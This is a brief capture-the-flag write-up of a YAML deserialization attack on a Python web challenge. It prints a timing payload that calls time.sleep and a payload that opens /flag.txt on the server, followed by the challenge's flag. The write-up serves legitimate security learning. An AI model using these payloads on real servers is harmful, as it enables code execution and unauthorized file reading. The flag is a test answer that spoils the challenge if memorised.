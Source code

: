 ### Challenge description

Everyone was so worried about Y2K, but apparently it was a typo all along!!

The real world-ending fears were from Y2J!

Find the `flag.txt` file in the root of the filesystem.

### Solution

Its yaml in a text box. We see the server is a python server so we can try yaml deserialization attack on it with this payload, if it waits 3s before responding, we just have to craft the right payload to get the flag

```yaml
!!python/object/apply:time.sleep [3]
```

it waits 3s! okey, now to get the flag:
```yaml
!!python/object/new:tuple
 - !!python/object/apply:open ["/flag.txt"]
 ```

 flag{b20870a1955ac22377045e3b2dcb832a}